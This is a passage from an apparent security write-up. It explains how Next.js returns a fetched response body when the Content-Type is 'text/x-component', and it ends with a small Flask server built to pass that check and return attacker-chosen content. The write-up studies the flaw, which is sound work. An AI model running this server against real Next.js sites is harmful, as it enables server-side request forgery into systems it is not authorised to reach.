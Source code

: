 ```typescript
      [...]
    }
  [...]
  return RenderResult.fromStatic('{}')
  [...]
```

As you can see, if the response header `Content-Type` is `RSC_CONTENT_TYPE_HEADER`, it'll return the response body to us (`return new FlightRenderResult(response.body!)`)!

**Uhh... What's that `RSC_CONTENT_TYPE_HEADER`? Actually, it's just `text/x-component`:** 
```typescript
[...]
import {
  RSC_HEADER,
  RSC_CONTENT_TYPE_HEADER,
} from '../../client/components/app-router-headers'
[...]
```

**`app-router-headers.ts`:**
```typescript
[...]
export const RSC_CONTENT_TYPE_HEADER = 'text/x-component' as const
[...]
```

So... Firstly, in the CORS preflight check HEAD request, if we **set the response header `Content-Type` to `text/x-component`**, the CORS preflight check should be passed. Then, we can read the response body.

## Exploitation

**Let's write a simple Flask app to verify that!**
```python
#!/usr/bin/env python3
from flask import Flask, request, Response

app = Flask(__name__)

@app.route('/login')
def exploit():
    # CORS preflight check
    if request.method == 'HEAD':
        response = Response()
        response.headers['Content-Type'] = 'text/x-component'
        return response
    # after CORS preflight check
    elif request.method == 'GET':
        return 'After CORS preflight check'

if __name__ == '__main__':
    app.run(port=80, debug=True)
```
